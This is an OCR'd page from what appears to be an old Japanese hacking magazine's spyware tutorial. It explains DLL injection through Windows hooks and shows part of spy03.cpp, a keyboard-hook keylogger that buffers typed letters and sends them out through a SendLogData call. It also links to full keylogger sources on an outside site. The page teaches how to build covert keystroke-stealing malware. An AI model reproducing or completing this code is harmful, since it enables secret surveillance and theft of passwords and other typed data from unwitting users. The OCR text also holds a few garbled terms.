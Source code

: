 【編注】別のアプローチ（根本的な考えは同じ）として、FindWindowでウィンド
ウハンドルを取得してから、GetWindowThreadProcessldでスレッドIDを取得し、
SetWindowsHookExでWindowsフックを設定し、PostThreadMessageでDLLをプロセ
スに読み込ませることでも実現できます。DLL extraction（DLL抽出）というテ
クニックです。


■0x06.) getコマンド

　HTTPを利用してインターネット上のページを取得するのにもっともよく利用さ
れているプログラムはＩＥかもしれませんが、ページを取得するだけならコマン
ドプロンプトからgetコマンドを利用しても同様のことができます（もちろんこ
ちらはCUIですけどね、故に軽いです）。

-----
C:\...\kenji>get http://kenjinet.s26.xrea.com/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html lang="ja-JP">
.........
...(省略)...
............
</body>
</html>
C:\...\kenji>
-----

　ＩＥではなくgetコマンドでも同様のことが可能でしょう。ということで、
spy02.cppをgetコマンド用に書き換えたspy03.cppを作ってみます。さらに、キー
ロギングの精度を上げるためにフックを利用します。

+---------------------------------------------+
| http://kenjinet.s26.xrea.com/spy/keyhook.h  |
| http://kenjinet.s26.xrea.com/spy/keylog.cpp |
+---------------------------------------------+

　キーをフックするDLLです。前回（WBvol.8）使ったhookDll.cppやkeyhook.hと
同じです。

+--------------------------------------------+
| http://kenjinet.s26.xrea.com/spy/spy03.cpp |
+--------------------------------------------+

-----
    case WM_CREATE:
        if(MySetHook()) { DestroyWindow(hWnd); }
        break;
    case WM_KEYHOOK:
        c = (char)wParam;
        if(c >= 'A' && c <= 'Z') { MainMemory[len] = c, len++; }
        if( !(TEXT_SIZE > len) ){
            if(SendLogData(MainMemory, len)){
                DestroyWindow(hWnd);
            }
            len = 0;
        }
        break;
    case WM_DESTROY:
        MyEndHook();
        PostQuitMessage(0);
        break;
-----
